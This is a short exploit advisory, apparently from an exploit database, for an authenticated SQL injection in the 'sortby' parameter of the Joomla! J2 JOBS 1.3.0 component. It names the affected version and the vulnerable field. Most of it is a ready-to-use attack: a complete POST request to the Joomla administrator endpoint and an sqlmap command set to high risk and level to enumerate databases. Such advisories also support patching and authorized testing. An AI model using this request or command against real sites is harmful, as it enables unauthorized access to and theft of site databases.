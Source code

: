 Exploit Title: Joomla! J2 JOBS 1.3.0 - 'sortby' Authenticated SQL Injection<br>
Date: 2020-06-17<br>
Exploit Author: Mehmet Kelepçe / Gais Cyber Security<br>
Vendor Homepage: https://joomsky.com/<br>
Software Link: https://joomsky.com/products/js-jobs-pro.html<br>
Change Log (Update) : https://joomsky.com/products/js-jobs.html<br>
Version: 1.3.0<br>
Tested on: Kali Linux - Apache2<br>
<br>
Vulnerable param: sortby<br>
<br>
POST /joomla/administrator/index.php HTTP/1.1<br>
Host: localhost<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Referer: http://localhost/joomla/administrator/index.php<br>
Content-Type: application/x-www-form-urlencoded<br>
Content-Length: 233<br>
Connection: close<br>
Cookie: COOKIES<br>
Upgrade-Insecure-Requests: 1<br>
<br>
js_sortby=4&companyname=12&jobtitle=12&location=12&jobcategory=&jobtype=&datefrom=&dateto=&option=com_jsjobs&task=&c=job&view=job&callfrom=jobqueue&layout=jobqueue&sortby=asc&my_click=&boxchecked=0&d90ced5aa929447644f09b56c8d8ba12=1
<br><br>
<br>sqlmap poc:<br>
<br>
sqlmap -r jsjobs --dbs --risk=3 --level=5 --random-agent -p sortby<br>
